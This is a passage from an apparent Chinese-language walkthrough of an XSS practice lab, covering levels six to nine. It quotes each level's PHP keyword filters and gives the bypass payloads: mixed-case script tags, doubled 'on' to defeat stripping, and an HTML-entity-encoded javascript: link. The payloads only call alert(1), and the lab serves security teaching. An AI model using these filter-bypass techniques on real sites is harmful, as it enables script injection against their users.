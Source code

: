 伪协议就都用不了了

但是可以发现这里可以用大小写绕过

"><sCriPt>alert(1)</sCrIpt>

### 第七关

```
$str =strtolower( $_GET["keyword"]);
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
```


直接看源代码啊

这里大小写是绕不过的

这里是将字符串替换为空的，可以双写绕过

"  oonnclick="alert(1)"

### 第八关

```
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
```

<input name=keyword  value="'.htmlspecialchars($str).'">

这一关直接把双引号给搞没了，而且大小写都会被过滤

这里可以采用html实体编码

HTML对符号很敏感，比如空格，“<”,“>”等，于是这些符号需要用一些编码代替，这些编码就是HTML实体编码。

javascript:alert(1)

编码以后

```
java&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;:alert(1)
```

然后点链接就可以了

### 第九关

```
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
```
